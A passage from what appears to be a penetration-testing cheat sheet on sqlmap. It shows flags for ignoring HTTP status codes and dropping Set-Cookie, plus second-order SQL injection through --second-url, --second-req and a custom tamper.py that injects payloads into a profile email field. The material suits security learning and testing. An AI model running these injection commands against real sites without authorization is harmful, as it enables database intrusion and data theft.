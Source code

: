 We can ignore specific HTTP response (status) code.

```sh
# Ignore 401 (Unauthorized)
sqlmap -u "https://example.com/?q=test" --ignore-code 401

# Ignore 500 (Internal Server Error)
sqlmap -u "https://example.com/?q=test" --ignore-code 500
```

### Drop Set-Cookie

We can drop **`Set-Cookie`** from HTTP response headers.

```sh
sqlmap -u "https://example.com/?q=test" --drop-set-cookie
```

<br /><br />

## Second Order Attack

Reference: [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap)

If the SQL injection affects another URL, we want to customize the second URL.

### Method 1. Simply adding the second request

We can add **`second-url`** or **`second-req`** flag in **`sqlmap`** command.  
Note that each request file (e.g. `req1.txt`, `req2.txt`) is downloaded by clicking **"save item"** in each request in BurpSuite.

```bash
# -p: Specify the parameter where payload will be put
sqlmap -u "https://example.com/profile/change" -p email  --second-url "https://example.com/dashboard"
sqlmap -r req1.txt -p email --second-req req2.txt
```

### Method 2. Tampering

If we could not achieve with the method 1, it’s worth to create a tamper function.  
For example, create **`tamper.py`** with the content below.

```python
#!/usr/bin/env python
import re
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def change_profile(payload):
    proxies = {'http':'http://127.0.0.1:8080'}
    cookies = {"ExampleToken": "abcdef...xyz"}

    params = {"username":"tester", "email":payload}
    url = "https://example.com/profile/change"
    req = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)
		# If we need to send json param, use `json` attribute instead of `data`.

    url = "https://example.com/dashboard"
    req = requests.get(url, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)
```